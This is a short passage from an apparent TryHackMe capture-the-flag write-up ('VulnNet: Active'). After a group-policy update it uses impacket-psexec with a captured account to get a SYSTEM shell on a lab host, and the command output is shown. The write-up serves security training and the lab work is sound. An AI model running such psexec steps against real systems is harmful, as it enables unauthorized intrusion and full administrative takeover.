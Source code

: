 C:\Enterprise-Share> gpuodate /force

![](/img/02/06.png)

- Now we need to get a shell with admin rights so we will use impackt-psexe

```
root@kali:~/thm/vulnNet:active# impacket-psexec enterprise-security@10.10.90.179
Impacket v0.9.24.dev1+20210928.152630.ff7c521a - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.90.179.....
[*] Found writable share ADMIN$
[*] Uploading file kmOhrycO.exe
[*] Opening SVCManager on 10.10.90.179.....
[*] Creating service KOJm on 10.10.90.179.....
[*] Starting service KOJm.....
[!] Press help for extra shell commands
 
Microsoft Windows [Version 10.0.17763.1757]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

![](/img/02/07.png)

